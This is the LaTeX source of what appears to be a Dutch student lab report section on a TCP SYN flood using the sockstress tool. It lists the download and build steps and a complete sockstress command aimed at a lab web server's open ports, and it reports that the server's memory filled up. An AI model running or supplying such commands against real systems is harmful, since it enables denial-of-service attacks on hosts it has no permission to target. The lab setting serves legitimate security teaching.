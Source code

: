 \documentclass[pdftex,a4paper,12pt]{report}
\begin{document}
\section{TCP SYN flood}
In deze aanval wordt Sockstress gebruikt. Dit is één tool die kan worden gebruikt om een TCP SYN flood aanval uit te voeren. Allereerst moet er terug een port scan worden uitgevoerd om te kijken welke poorten er open zijn. Dit zal dezelfde uitvoer hebben als figuur~\ref{img:PortScan}. Alle poorten die hier zichtbaar zijn worden best even ergens genoteerd omdat deze later nog zullen worden gebruikt. Om deze aanval uit te voeren via de Kali Aanvaller-machine moet sockstress eerst gedownload worden aangezien dit niet standaard op Kali Linux staat. Dit wordt gedaan door de volgende lijnen code:
\begin{verbatim} apt-get update \end{verbatim}
\begin{verbatim} apt-get install libpcap0.8 libssl-dev -y \end{verbatim}
\begin{verbatim} wget http://samsclass.info/123/proj10/sockstress-outpost24.tar.gz \end{verbatim}
Indien dit commando niet werkt kan er gegaan worden naar \url{https://defuse.ca/sockstress.htm} waar sockstress ook kan gedownload worden.
\begin{verbatim} tar xzf sockstress-outpost24.tar.gz \end{verbatim}
\begin{verbatim} cd sockstress \end{verbatim}
\begin{verbatim} ./configure \end{verbatim}
\begin{verbatim} nano config.h \end{verbatim}
Met dat laatste lijntje wordt er naar het configuratiebestand gegaan en daar moet \textit{\#include <pcap.h>} aangepast worden naar \textit{\#include </usr/include/pcap.h>}. Nu dit is aangepast kan de effectieve aanval worden uitgevoerd. Dit wordt gedaan met volgende lijn code:
\begin{verbatim} ./sockstress -A -c -1 -d 192.168.1.3 -m -1 -Ms -p 23,80,135,445,
1801,2103,2105,2107,49154,49176 -r 100000 -s 192.168.2.0/24 -vv
 \end{verbatim}
Nu kan er naar de webserver worden gegaan om in het taakbeheer te kijken naar de prestaties van het geheugen en te kijken of de aanval al dan niet is geslaagd. In figuur~\ref{img:SockVoor} is het geheugen te zien voor de aanval en in figuur~\ref{img:SockNa} het geheugen na de aanval. Het geheugen is helemaal volgelopen en er kan niets meer gebeuren op de server. Deze moet nu handmatig worden afgesloten.
\end{document}
